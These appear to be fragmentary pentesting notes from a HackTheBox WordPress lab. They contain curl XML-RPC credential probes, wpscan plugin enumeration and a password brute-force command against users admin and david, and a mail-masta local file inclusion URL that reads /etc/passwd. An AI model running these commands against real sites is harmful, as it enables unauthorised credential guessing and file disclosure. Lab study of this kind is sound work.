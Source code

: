 
cURL - Post Request



```bash

Y3rb1t4@htb[/htb]$ 
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://83.136.252.214:46951xmlrpc.php


```

Invalid Credentials - 403 Forbidden

```bash

Y3rb1t4@htb[/htb]$ curl -X POST -d "<methodCall><methodName>system.listMethods</methodName><params><param><value>admin</value></param><param><value>asdasd</value></param></params></methodCall>" http://83.136.252.214:46951/xmlrpc.php

```

```bash

exegol-yerba /workspace # wpscan --url $TARGET  --enumerate vp --api-token $TOKEN

```

http://94.237.48.205:32093/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

Wordpress User Bruteforce 

wpscan -XMLRPC

```bash
Y3rb1t4@htb[/htb]$ wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url $TARGET

```
dasdasaa



